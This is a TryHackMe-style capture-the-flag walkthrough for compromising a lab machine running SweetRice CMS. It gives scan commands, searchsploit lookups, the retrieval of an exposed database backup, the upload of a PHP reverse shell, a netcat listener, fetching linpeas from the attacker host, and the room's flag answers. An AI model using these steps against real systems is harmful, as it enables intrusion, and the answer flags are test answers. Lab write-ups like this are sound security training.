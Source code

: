 Have some fun! There might be multiple ways to get user access.  

`Note: It might take 2-3 minutes for the machine to boot`  

Answer the questions below

| Question               | Answer                                | SS                                   |
| ---------------------- | ------------------------------------- | ------------------------------------ |
| What is the user flag? | THM{63e5bce9271952aad1113b6f1ac28a07} | ![[Pasted image 20240330185844.png]] |

```
export IP=10.10.61.248
```

```
nmap -sC -sV -A -T4 -v -p- -oN scans/nmap $IP
```
![[Pasted image 20240330091032.png]]


```
gobuster dir --url http://$IP --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster
```
![[Pasted image 20240330091146.png]]


```
searchsploit sweetrice
```
![[Pasted image 20240330091321.png]]


```
searchsploit -x php/webapps/40700.html
```
![[Pasted image 20240330091749.png]]

*Copy the exploit:*
```
searchsploit -m php/webapps/40700.html
```


*Change the exploit:*
![[Pasted image 20240330092309.png]]

*to:*
![[Pasted image 20240330092547.png]]

*and open it:*
![[Pasted image 20240330092805.png]]

*Search for credentials:*
```
searchsploit sweetrice
```
![[Pasted image 20240330093116.png]]


```
searchsploit -x php/webapps/40718.txt
```
![[Pasted image 20240330093543.png]]

![[Pasted image 20240330093710.png]]


```
wget "http://10.10.61.248/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql"
```

```
file mysql_bakup_20191129023059-1.5.1.sql
```
![[Pasted image 20240330094010.png]]

![[Pasted image 20240330095124.png]]


![[Pasted image 20240330095703.png]]


![[Pasted image 20240330095815.png]]

![[Pasted image 20240330100054.png]]


*Open the exploit in firefox from terminal:*

![[Pasted image 20240330100158.png]]


![[Pasted image 20240330100143.png]]

*Access it:*

```
10.10.61.248/content/inc/ads/hacked.php
```

![[Pasted image 20240330100349.png]]


*Modify a php-reverse-shell:*
![[Pasted image 20240330122038.png]]

*Copy the content of the file and paste it inside the exploit:*

![[Pasted image 20240330123120.png]]

![[Pasted image 20240330123204.png]]

*Open the exploit from terminal again:*

```
firefox exploit.html
```
![[Pasted image 20240330123403.png]]

![[Pasted image 20240330123502.png]]


*Start netcat listener:*
```
nc -nvlp 1234
```
![[Pasted image 20240330123751.png]]

*Change in firefox:*
```
10.10.61.248/content/inc/ads/revshell.php
```
![[Pasted image 20240330124047.png]]

![[Pasted image 20240330124103.png]]


*Upgrade shell:*
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

*Transfer linpeas to target:*

*Open server on host machine:*
```
python3 -m http.server --bind 10.8.194.147
```
![[Pasted image 20240330184713.png]]

*Download the file on target machine:*
```
wget http://10.8.194.147:8000/linpeas.sh
```
![[Pasted image 20240330184739.png]]

*Make it executable:*
```
chmod +x linpeas.sh
```

*and run it:*
```
./linpeas.sh
```
![[Pasted image 20240330185243.png]]

![[Pasted image 20240330185549.png]]

*Go to user's folder:*
![[Pasted image 20240330190249.png]]

![[Pasted image 20240330190309.png]]

*Change the content of the file:*

![[Pasted image 20240330191019.png]]


![[Pasted image 20240330190937.png]]

*Open netcat on host machine:*
![[Pasted image 20240330191214.png]]

*On target machine:*
![[Pasted image 20240330192311.png]]

*On host:*
![[Pasted image 20240330191510.png]]

*Stabilize shell:*
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
CTRL+Z
```
```
stty raw -echo
fg
```
```
export TERM=xterm
```

![[Pasted image 20240330192400.png]]

![[Pasted image 20240330192414.png]]



| Question               | Answer                                | SS                                       |
| ---------------------- | ------------------------------------- | ---------------------------------------- |
| What is the root flag? | THM{6637f41d0177b6f37cb20d775124699f} | ![[Pasted image 20240330192439.png]]<br> |
